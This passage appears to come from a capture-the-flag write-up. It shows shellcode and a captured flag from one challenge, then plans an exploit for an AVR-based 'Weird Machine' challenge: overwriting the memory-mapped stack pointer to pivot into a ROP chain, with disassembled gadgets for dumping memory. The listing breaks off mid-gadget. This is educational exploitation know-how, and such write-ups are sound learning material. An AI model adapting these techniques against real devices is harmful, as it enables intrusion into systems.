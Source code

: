 ```
print r
```

When we run this we obtain the following shellcode:
```
035800000a440540000108540a880a850a11041001000a330a4404400001000006231c2008341631180008140001
```

When we run this on the board we get the flag:

```
FLAG:67e0d654a05ee5533e8d57e9e53f3bb9
```


# Exploit 400 - Weird Machine

The following description is given for this challenge:


> Damn fridges. It seems there is no end to the problems they bring. And this time time it got even more difficult. I guess you already know in which direction this goes, right?


Given that this challenge is in the category exploitation it seems likely that we need to use the vulnerabilities found in the previous step to gain full code execution outside of the VM.

We already have a 'read memory' and 'write memory' gadget so this should not be so hard. In order to achieve this we need to know some specifics about the AVR architecture:

* Program memory and SRAM are separated and accessed using different instructions.
* It is not possible to execute code from SRAM, code can only be executed from Flash memory.
* All registers are memory mapped into SRAM, see [Wikipedia](https://en.wikipedia.org/wiki/Atmel_AVR_instruction_set#Addressing) for mapping details.

Since code can only be executed from flash and not from SRAM the only option left to use is using ROP.

The idea is as follows:

* Write a ROP chain somewhere in memory
* Overwrite the stack pointer (SP) using it's memory mapped location 0x5D using the virtual MOV instruction
* The RET instruction in the virtual MOV instruction handler will now jump into the ROP chain.
* Find some gadgets to dump what we need: Flash, SRAM and EEPROM to see where the flag is hidden.

One of the issues we are left with is that we don't have the binary so it will be hard to find any gadgets. However we do have the binary for the 'FridgeJIT' challenge which is likely to be very similar.

Let's start by making a ROP chain using the FridgeJIT binary and see if we can port it to the actual challenge later.

We can find the following gadgets that are useful to dump SRAM and Flash:

```
print_string_addr_r24_from_ram
     47c:       cf 93           push    r28
     47e:       df 93           push    r29
     480:       ec 01           movw    r28, r24
     482:       89 91           ld      r24, Y+
     484:       88 23           and     r24, r24
     486:       19 f0           breq    .+6     ;  0x48e
     488:       0e 94 df 01     call    0x3be   ;  serial_print char r24
     48c:       fa cf           rjmp    .-12    ;  0x482
     48e:       df 91           pop     r29
     490:       cf 91           pop     r28
     492:       08 95           ret

print_string_addr_r24_from_flash
     494:       cf 93           push    r28
```